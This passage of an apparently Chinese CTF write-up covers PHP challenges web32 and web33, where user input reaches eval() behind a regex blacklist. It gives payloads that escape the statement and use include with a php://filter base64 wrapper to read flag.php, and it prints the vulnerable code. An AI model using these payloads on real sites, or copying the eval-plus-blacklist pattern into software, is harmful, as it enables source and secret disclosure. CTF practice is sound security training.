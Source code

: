 同时如果复制的文件不写扩展名，需要下载下来用记事本查看。



### web32

很好，这次额外禁用了echo，内联和分号还有引号。看来**传统的命令执行是不行了**。

目前各位师傅的wp里面写的是文件包含，但用这个方法的话我要下一个专题有何用？

因此这里有一位师傅给出了回答：等后来学会了文件包含再来做这个。

payload：?c=include%09$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php

这样可以利用伪协议得到flag.php的base64编码，前面的部分先闭合了上一个函数进行**逃逸**并将舞台留给伪协议。

```
<?php

error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```



### web33

这次双引号被过滤了，还是得逃逸外加文件包含。

payload:?c=include%09$_GET[0]?>&0=php://filter/read=convert.base64-encode/resource=flag.php

payload:?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php

```
<?php
error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
    eval($c);
  }

}else{
  highlight_file(__FILE__);
}
```



### web34
